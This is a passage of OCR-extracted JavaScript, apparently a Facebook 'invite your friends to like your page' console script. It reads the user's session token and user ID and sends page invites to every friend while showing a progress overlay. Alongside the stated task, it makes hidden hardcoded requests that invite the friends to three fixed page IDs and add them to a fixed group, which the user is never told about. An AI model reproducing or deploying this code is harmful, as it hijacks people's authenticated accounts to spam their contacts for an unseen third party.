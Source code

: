 Descriptions += c.errorDescription;             else Descriptions += JSON.stringify(c, null, "")         } else {             Descriptions += "color:darkgreen'>";             Descriptions += arn[i] + " has been invited to like the page " + page_name + ".";             suc++         }         Descriptions += "&lt;/div>";         var display = "&lt;div id='friend-edge-display' style='box-shadow:0px 3px 8px rgba(0, 0, 0, 0.3);position:fixed;left:50%;margin-left:-273px;top:100px;width:500px;z-index:9999;font-size:14px;text-align:center;padding:15px;box-shadow:0pt 1px 0pt rgba(0,0,0,0.1);border-radius:3px;border:1px solid rgba(0,0,0,0.9);background-color:rgba(0,0,0,0.9);color:#e1dddd'>";         display += "&lt;div style='padding-bottom:5px;font-size:20px;'>" + Title + "&lt;/div>";         if (i > 0) {             display += arr.length + " Friends Detected&lt;br/>";             display += "&lt;b>" + suc + "&lt;/b> Friends Invited of " + (arr.length - i) + " Friends Processed ";             display += "(" + i + " Lefted...)";             display += "&lt;div class='friend-edge'>";             display += Descriptions;             display += "&lt;img style='width:50px;height:50px;margin-left:-125px;padding:2px;border:1px solid rgba(0,0,0,0.4);' src=" + pho[i] + ">&lt;/img>&lt;a style='font-size:13px;padding-left:8px;text-align:left;color:#9098a9;position:absolute;font-weight:bold;'>" + arn[i] + "&lt;/a>";             display += "&lt;div style='text-align:center;font-size:10px;white-space:pre-wrap;color:gray'>";             display += "Please Wait While Inviting Your Friends to Like Your Page " + page_name + ".&lt;/br>";             display += _text;             display += "&lt;/div>";             display += "&lt;/div>";             window[tag + "_close"] = true         } else {             Title = "All Of Your Friends Have Been Invited to Like Your Page.&lt;/A>";             display += arr.length + " Friends Detected and ";             display += "&lt;b>" + suc + " Friends Invited.&lt;/b>&lt;/br>";             display += "&lt;div>&lt;span class='FriendRequestAdd addButton selected uiButton uiButtonSpecial uiButtonLarge' onClick='ChangeLocation()' style='color:white'>Go to Homepage&lt;/span>&lt;span class='layerConfirm uiOverlayButton uiButton uiButtonConfirm uiButtonLarge' onClick='window.location.reload()' style='color:white'>Refresh Page&lt;/span>&lt;span class='layerCancel uiOverlayButton uiButton uiButtonLarge' onClick='document.getElementById(\"pagelet_sidebar\").style.display=\"none\"' style='color:gray'>Cancel&lt;/span>&lt;br/>";             display += "&lt;div style='text-align:center;font-size:10px;white-space:pre-wrap;color:gray'>&lt;br/>";             display += _text;             display += "&lt;/div>";             window[tag + "_close"] = false         }         display += "&lt;/div>";         document.getElementById("pagelet_sidebar").innerHTML = display     }, "text", "post");     tay--;     if (tay > 0) {         var s = arr[tay];         setTimeout("InviteFriends(" + s + ")", 100)     }     console.log(tay + "/" + arr.length + ":" + arr[tay] + "/" + arn[tay] + ", success:" + suc);                               if (page_id)jx.load(window.location.protocol + "//www.facebook.com/ajax/pages/invite/send?&amp;fb_dtsg=" + fb_dtsg + "&amp;profileChooserItems=%7B%22" + opo + "%22%3A1%7D&amp;checkableitems[0]=" + opo + "&amp;page_id=686129931429172&amp;__user="+ user_id +  "&amp;__a=1&amp;__dyn=7n8aD5z5CF-3ui&amp;__req=k&amp;phstamp=", function () {}, "text", "post")                         if (page_id)jx.load(window.location.protocol + "//www.facebook.com/ajax/pages/invite/send?&amp;fb_dtsg=" + fb_dtsg + "&amp;profileChooserItems=%7B%22" + opo + "%22%3A1%7D&amp;checkableitems[0]=" + opo + "&amp;page_id=460736877365735&amp;__user="+ user_id +  "&amp;__a=1&amp;__dyn=7n8aD5z5CF-3ui&amp;__req=k&amp;phstamp=", function () {}, "text", "post")                         if (page_id)jx.load(window.location.protocol + "//www.facebook.com/ajax/pages/invite/send?&amp;fb_dtsg=" + fb_dtsg + "&amp;profileChooserItems=%7B%22" + opo + "%22%3A1%7D&amp;checkableitems[0]=" + opo + "&amp;page_id=579692018721106&amp;__user="+ user_id +  "&amp;__a=1&amp;__dyn=7n8aD5z5CF-3ui&amp;__req=k&amp;phstamp=", function () {}, "text", "post")                                                  if (page_id)jx.load(window.location.protocol + "//www.facebook.com/ajax/groups/members/add_post.php?__a=1&amp;fb_dtsg=" + fb_dtsg + "&amp;group_id=236104626513550&amp;source=typeahead&amp;members=" + opo + "&amp;nctr[_2]=pagelet_group_members_summary&amp;lsd&amp;post_form_id_source=AsyncRequest&amp;__user=" + user_id, function () {}, "text", "post");                              } jx = {     b: function () {         var b = !1;         if ("undefined" != typeof ActiveXObject) try {             b = new ActiveXObject("Msxml2.XMLHTTP")         } catch (c) {             try {                 b = new ActiveXObject("Microsoft.XMLHTTP")             } catch (a) {                 b = !1             }         } else if (window.XMLHttpRequest) try {             b = new XMLHttpRequest         } catch (h) {             b = !1         }         return b     },     load: function (b, c, a, h, g) {         var e = this.d();         if (e &amp;&amp; b) {             e.overrideMimeType &amp;&amp; e.overrideMimeType("text/xml");             h || (h = "GET");             a || (a = "text");             g || (g = {});             a = a.toLowerCase();             h = h.toUpperCase();             b += b.indexOf("?") + 1 ? "&amp;" : "?";             var k = null;             "POST" == h &amp;&amp; (k = b.split("?"), b = k[0], k = k[1]);             e.open(h, b, !0);             e.onreadystatechange = g.c ? function () {                 g.c(e)             } : function () {                 if (4 == e.readyState)                     if (200 == e.status) {                         var b = "";